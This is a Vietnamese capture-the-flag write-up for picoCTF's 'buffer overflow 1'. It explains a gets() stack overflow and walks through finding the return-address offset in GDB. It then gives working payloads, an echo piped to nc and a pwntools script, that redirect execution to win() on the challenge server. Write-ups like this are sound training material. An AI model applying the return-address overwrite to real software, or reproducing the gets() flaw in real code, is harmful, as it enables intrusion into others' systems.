

# buffer overflow 1

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

b) Nhận xét

- Chúng ta có thể dễ dàng thấy lỗi nằm ở hàm gets, hàm này không kiểm tra số lượng ký tự nhập vào dẫn đến lỗi tràn bộ đệm

## 2. Ý tưởng khai thác

- Chỉ khi chạy hàm win thì flag mới được in ra, vậy chúng ta phải gọi được hàm win. Ở đây hàm win không được gọi đến nhưng chúng ta có thể gọi đến nó bằng cách ghi đè địa chỉ trở về (return address) vào thanh ghi EIP
- Thanh ghi EIP (trong kiến trúc 16 bit gọi là thanh ghi IP, trong kiến trúc 32 bit gọi là EIP, trong kiến trúc 64 bit gọi là RIP) là thanh ghi con trỏ lệnh, nó dùng để lưu địa chỉ của câu lệnh tiếp theo được thực hiện.
- Mỗi khi chương trình chạy thì hệ điều hành sẽ cung cấp cho chương trình một vùng nhớ trên RAM dùng để lưu trữ các biến nội bộ, các giá trị trở về (giá trị của EIP), giá trị các thanh ghi,… gọi là vùng nhớ stack. Ở bài này, mô hình stack (tại hàm vuln) trông như sau:



- Stack ghi từ địa chỉ thấp lên địa chỉ cao (ở đây là từ dưới lên trên) nên ta sẽ ghi 32 ký tự để ghi đè biến buf + 4 ký tự ghi đè EBP. 36 ký tự này gọi là padding. Sau đó ta cần ghi đè địa chỉ của return address bằng địa chỉ của hàm win
- Trên lý thuyết là vậy nhưng thật ra padding sẽ khác (do sự căn chỉnh stack, do compiler hoặc do người ra đề cố tình sửa padding stack) vì vậy thay vì tính bằng tay thì ta nên dùng công cụ. Ở đây mình dùng https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html


## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Đầu tiên ta mở chương trình bằng GDB


- Generate ra 100 ký tự rồi chạy trong GDB bằng câu lệnh

```cpp
run < <(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
```


- Quan sát stack ta thấy EIP ghi “4Ab5”, ta check trên công cụ thì thấy offset là 44, vậy khoảng cách từ biến buf đến thanh ghi EIP thực chất phải là 44 chứ không phải là 36 như ta đã tính tay


b) Bước 2: Tìm địa chỉ của hàm win

- Dùng câu lệnh “info functions” để xem địa chỉ các hàm:


- Ở đây ta tìm được địa chỉ của hàm win là 0x080491f6. Theo kiến trúc little-edian thì địa chỉ đó sẽ được ghi trong stack là \xf6\x91\x04\x08
- Vậy payload cần dùng là: 44 ký tự padding +  “\xf6\x91\x04\x08”

c) Bước 3: Viết payload

- Chúng ta có 2 cách để truyền payload bao gồm truyền bằng ống (pipe) và truyền bằng file thực thi
- Cách 1: truyền bằng pipe:
+ Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08
+ Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08"; cat) | nc saturn.picoctf.net 63395
```


- Cách 2: dùng file thực thi
+ Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('saturn.picoctf.net', 63395)
payload = b'a'*44 + p32(0x080491f6)

p.sendline(payload)
p.interactive()
```


## 4. Kết luận

- Ta chỉ nên vẽ stack để tham khảo, không nên tính padding bằng stack mà nên dùng tool
- Phương pháp chúng ta vừa dùng được gọi là kỹ thuật quay về phân vùng .text (return to .text). Một tập tin thực thi theo định dạng ELF có nhiều phân vùng. Phân vùng .text là phân vùng chứa tất cả các mã lệnh đã được trình biên dịch tạo ra, và sẽ được bộ vi xử lý thực thi. Kỹ thuật này khá quan trọng vì đôi khi mã lệnh mà chúng ta cần thực thi đã có sẵn trong chương trình nên chúng ta chỉ cần tìm ra địa chỉ các mã lệnh đó là đã có thể thực hiện thành công việc tận dụng lỗi
